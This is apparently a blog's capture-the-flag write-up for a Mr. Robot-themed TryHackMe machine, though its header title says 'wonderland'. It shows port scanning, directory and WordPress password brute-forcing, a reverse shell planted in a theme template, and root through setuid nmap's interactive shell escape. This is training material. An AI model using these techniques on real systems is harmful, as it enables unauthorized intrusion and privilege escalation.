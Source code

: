 ```yaml
---
layout: post
title: tryhackme wonderland write up
---
```


![mr.robot](https://raw.githubusercontent.com/0x00Jeff/0x00Jeff.github.io/master/assets/thm/robot/mr_robot.jpg)

### about the machine

this is a medium rated box from [tryhackme](https://tryhackme.com), thought a little too easy if you asked me

### Reconnaissance

I added the box ip to my hosts file then a ran a quick nmap scan
```bash
# Nmap 7.91 scan initiated Wed Jan  6 22:39:07 2021 as: nmap -v -oN ports ctf.thm
Nmap scan report for ctf.thm (10.10.15.148)
Host is up (0.37s latency).
Not shown: 997 filtered ports
PORT    STATE  SERVICE
22/tcp  closed ssh
80/tcp  open   http
443/tcp open   https

Read data files from: /usr/bin/../share/nmap
# Nmap done at Wed Jan  6 22:39:26 2021 -- 1 IP address (1 host up) scanned in 19.88 seconds

```

### http enumeration

I visited both the `http` and the `https` and they seemed to have the same page, which is an interactive command line with couple defined commands, non of them were useful thought
![command line](https://raw.githubusercontent.com/0x00Jeff/0x00Jeff.github.io/master/assets/thm/robot/command_line.png)

visiting `robots.txt` I got the following result
```bash
User-agent: *
fsocity.dic
key-1-of-3.txt
```

looks like we found the first flag and what appreared to be very big a wordlist full of duplicated words

```bash
$ wget ctf.thm/fsocity.dic
--2021-01-06 22:56:37--  http://ctf.thm/fsocity.dic
Resolving ctf.thm (ctf.thm)... 10.10.28.187
Connecting to ctf.thm (ctf.thm)|10.10.28.187|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7245381 (6.9M) [text/x-c]
Saving to: ‘fsocity.dic’
858160 fsocity.dic

fsocity.dic         100%[================>]   6.91M   436KB/s    in 17s     

2021-01-06 22:57:01 (405 KB/s) - ‘fsocity.dic’ saved [7245381/7245381]
$ wc -l fsocity.dic
858160 fsocity.dic
$ cat fsocity.dic | sort -u > small.dict
$ wc -l small.dict
11451 small.dict
```

then I've ran some http files brutforce. turned out is website is running wordpress

```bash
$ ngobuster dir -u ctf.thm -w $RAFT -t 30 -o robot.raft
/license.txt (Status: 200)
/index.php (Status: 301)
/wp-login.php (Status: 200)
/wp-register.php (Status: 301)
/index.html (Status: 200)
```

I tried getting enumerating the users by visiting `ctf.thm/?author=id` but it didn't work, then I browsed to `wp-login.php` and since I this is a mr.robot themed box I tried the user name `elliot` and bingo, the user existed (if anyone knows another method for getting a user without guessing please let me know)

![found user elleiot](https://raw.githubusercontent.com/0x00Jeff/0x00Jeff.github.io/master/assets/thm/robot/found_user.png)

I've tried bruteforcing the password using the wordlist I got earlier and I've got some creds

```bash
$ echo elliot > user.txt
$ wpscan --url ctf.thm -U user.txt -P small.dict
...
[!] Performing password attack on Xmlrpc Multicall against 1 user/s
[!] Valid Combinations Found:
 | Username: elliot, Password: REDACTED_PASSWORD
```
# aaand I'm in
![logged in](https://raw.githubusercontent.com/0x00Jeff/0x00Jeff.github.io/master/assets/thm/robot/wp_loged_in.png)


from here, first thing I've done is browsing to `appearance -> editor` and I've edited the `404.php` template to include a php reverse shell I got from [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

![malicious 404.php](https://raw.githubusercontent.com/0x00Jeff/0x00Jeff.github.io/master/assets/thm/robot/malicious_404.png)


then I browsed to `ctf.thm/jeff`, got a reverse connection, stabilized it then I began searching for the second flag

```bash
daemon@linux:~$ whoami
daemon
daemon@linux:~$ ls /home/
robot
daemon@linux:~$ cd /home/robot/
daemon@linux:/home/robot$ ls -lh
total 8.0K
-r-------- 1 robot robot 33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot 39 Nov 13  2015 password.raw-md5
daemon@linux:/home/robot$ cat key-2-of-3.txt
cat: key-2-of-3.txt: Permission denied
daemon@linux:/home/robot$
```

I found an md5-hashed `robot`'s creds, I got the original password by just copy/pasting the hash into google then I got the flag

### gaining root prileveges

the box had a really old version of `nmap` with a setuid bit set, old versions of nmap support the `--interactive` options, which lets you execute shell commands from an `nmap` prompts

```bash
daemon@linux:/home/robot$ find / -perm -u=s 2>/dev/null 
...
/usr/local/bin/nmap
...
^C
daemon@linux:/home/robot$ /usr/local/bin/nmap --version

nmap version 3.81 ( http://www.insecure.org/nmap/ )
daemon@linux:/home/robot$ /usr/local/bin/nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !bash -p
bash-4.3# whoami
root
bash-4.3# cd /root
bash-4.3# ls -lh
total 4.0K
-rw-r--r-- 1 root root  0 Nov 13  2015 firstboot_done
-r-------- 1 root root 33 Nov 13  2015 key-3-of-3.txt
bash-4.3# touch key-3-of-3.txt
bash-4.3# 
```
